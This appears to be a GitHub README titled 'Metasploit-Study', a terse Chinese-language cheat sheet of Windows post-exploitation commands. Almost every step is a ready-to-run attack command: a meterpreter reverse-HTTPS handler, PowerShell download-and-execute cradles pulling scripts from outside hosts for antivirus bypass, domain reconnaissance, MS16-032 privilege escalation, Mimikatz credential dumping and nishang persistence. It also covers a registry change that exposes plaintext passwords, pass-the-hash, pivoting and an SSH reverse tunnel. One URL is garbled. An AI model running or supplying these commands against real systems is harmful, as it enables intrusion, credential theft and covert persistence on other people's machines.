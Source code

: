 # Metasploit-Study
心得

1、启动console
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set lhost 121.xx.xx.43;set lport 5555;exploit -j"


2、过杀软
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/https.ps1')


3、域探测
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/PowerView.ps1');Invoke-UserHunter"


4、提权
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.3.101/doc/16-032.ps1');Invoke-MS16-032 -Application C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -Commandline ' -nop -exec bypass .\1.ps1'"


5、下载文件
powershell (new-object System.Net.WebClient).DownloadFile('http:/http://121.43.xx.xx:8888/wce.exe,‘wce.exe')


6、抓明文（windows 2008 R2 后需修改注册表项 use post/windows/manage/wdigest_caching）或者 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

7、mimikatz
powershell.exe  -nop -exec bypass  -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
或者
meterpreter load mimikatz

8、hash传递登录
 use exploit/windows/smb/psexec_psh
 
 
9、添加路由
post/multi/manage/autoroute


10、proxychains socks 代理
use auxiliary/server/socks4a


11、持久化nishang
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/Add-Persistence.ps1');Add-Persistence -PayloadURL http://121.xx.xx.43:8888/https5555.ps1"

12、
ssh -qTfnN -R 5555:192.168.2.100:5555 root@121.xx.xx.43
远程vps 需开启：
vi /etc/ssh/sshd_config
gatewayports yes
